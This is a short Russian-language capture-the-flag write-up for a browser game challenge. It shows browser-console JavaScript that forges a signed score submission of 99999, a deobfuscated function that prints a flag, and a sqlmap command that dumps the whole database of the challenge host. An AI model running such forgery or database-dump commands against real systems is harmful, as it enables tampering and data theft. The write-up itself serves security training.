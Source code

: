 1. Находим код в game.js, который передает результаты игры.

2. После отправки результата игры, что бы заменить количество очков на 99999 выполняем в консоле  браузера:
```
var b1 = aY[b('0x1f')][0x0][b('0x20')];
bI=99999;
str = bI + b1 + b0;
sign = b3(str);
var b2 = '/addresult?email=' + encodeURI(b1) + b('0x21') + encodeURI(b0) + '&score=' + encodeURI(bI) + b('0x22') + encodeURI(sign);
```
b2 подставляем в http://easygame.ctf2019.rocks/addresult? и получаем флаг

3. Находим дополнительный флаг в 
```
function be() {
    var bf = 'T';
    var bg = '{';
    var bh = 'C';
    var bi = '}';
    var bj = 'F';
    var bk = 'G';
    var bl = 'W';
    var bm = '6FF2866491F6CD6';
    var bn = b('0x2e');
    console[b('0x8')](bl + bk + bh + bf + bj + bg + bm + bn + bi);
}
```

4. Еще один дополнительный flag находим с помощью sqlmap
sqlmap -u http://easygame.ctf2019.rocks/addresult?email=p --dump-all --keep-alive --dbms=sqlite
